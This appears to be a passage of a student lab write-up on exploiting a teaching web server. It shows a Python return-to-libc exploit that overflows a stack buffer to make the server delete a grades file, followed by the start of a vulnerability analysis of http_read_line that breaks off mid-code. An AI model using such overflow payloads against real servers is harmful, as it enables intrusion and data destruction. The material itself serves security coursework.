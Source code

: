 The code is as such:

`exploit-4.py`
```python=
stack_buffer = 0x7fffffffdcd0
stack_retaddr = 0x7fffffffece8
accidentally_fn_addr = 0x5555555558f4
lib_c_unlink_addr = 0x2aaaab2470e0
unlink_file_path = "/home/httpd/grades.txt" + b'\00' 


def build_exploit(shellcode):

    payload = unlink_file_path + \
        'a' * (4095 - len(unlink_file_path)) + 'b' * 24 

    accidentally_addr_processed = struct.pack("<Q", accidentally_fn_addr)
    payload += accidentally_addr_processed


    # proceed to add lib-c address to the addr just after rip so that when pop happens, sp points here, and goes into lib-c. There is now no need for padding
    lib_c_unlink_addr_processed = struct.pack("<Q", lib_c_unlink_addr)
    payload += lib_c_unlink_addr_processed

    # make that rb %0x10 point to stackbuffer[1]
    payload += struct.pack("<Q", stack_buffer+1)

    # make sure to 
    payload = urllib.quote(payload)

    req = "GET /{0} HTTP/1.0\r\n".format(payload) + \
        "\r\n"
    return req
```

## check result ex1-ex4
![](https://i.imgur.com/mlwSXRi.png)


### Exercise 5
#### Vulnerability 1
One of the vulnerabilties we discovered was with the method `http_read_line` implemented in the server code. For every request that enters the server (via `process_client`), we note that the process will call the `http_request_line` with arguments of the file descriptor, as well as th `reqpath` buffer.

`http_request_line` will then call `http_read_line`, which has been poorly coded out as below. Note that all this is happening in the parent process:

`http.c`
```c=30
int http_read_line(int fd, char *buf, size_t size)
{
    size_t i = 0;
    for (;;)
    {
        int cc = read(fd, &buf[i], 1);
        if (cc <= 0)
            break;
        if (buf[i] == '\r')
        {
            buf[i] = '\0';      /* skip */
            continue;
```